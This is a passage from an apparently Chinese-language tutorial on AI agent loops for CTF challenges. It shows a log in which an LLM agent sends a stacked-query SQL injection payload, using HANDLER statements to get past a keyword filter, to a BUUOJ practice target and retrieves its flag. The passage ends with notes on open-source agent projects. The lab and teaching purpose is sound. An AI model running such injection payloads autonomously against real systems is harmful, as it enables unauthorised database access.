    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27;%20HANDLER%20%601919810931114514%60%20OPEN;%20HANDLER%20%601919810931114514%60%20READ%20FIRST;%20--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 186B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27;%20HANDLER%20%601919810931114514%60%20OPEN;%20HANDLER%20%601919810931114514%60%20READ%20FIRST;%20--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
<hr>array(1) {
  [0]=>
  string(42) "flag{060b36d6-3edd-4e0f-b490-3847bfd26e9d}"
}
<br><hr></pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 22.675939798355103)] 
{
    "thought": "I successfully exploited the SQL injection vulnerability by bypassing the keyword filter using the HANDLER statement to read from the table '1919810931114514' and retrieved the flag.",
    "execute": "",
    "flag": "flag{060b36d6-3edd-4e0f-b490-3847bfd26e9d}",
    "done": true
}
Task completed.


[*] All tasks completed! Total time: 2436.1038584709167 seconds.

```

可以看到的是，虽然我们的 Agent Loop 的整个决策过程或许还有些傻，但我们的 Agent Loop 确乎成功地完成了对目标靶机的攻击，并成功地获取到了环境中的 flag。这证明了基础的 Agent Loop 确实存在一定程度上的自动化完成任务的能力。

由于 AI Agent 本质上是一门复杂的系统工程，因此在接下来的章节当中，我们将逐渐引入真实的开源项目（如 [https://github.com/A3INFRA/Flagent](https://github.com/A3INFRA/Flagent) 、[https://github.com/deepseek-ai/awesome-deepseek-agent](https://github.com/deepseek-ai/awesome-deepseek-agent)、[https://github.com/NYU-LLM-CTF/nyuctf_agents](https://github.com/NYU-LLM-CTF/nyuctf_agents)、[https://github.com/openai/codex](https://github.com/openai/codex) 、[https://github.com/Yeti-791/Tsec-Hackathon](https://github.com/Yeti-791/Tsec-Hackathon) （按字母排序） 等）作为示例代码进行讲解，而不仅仅囿于现在这样简单的朴素代码说明与构造。
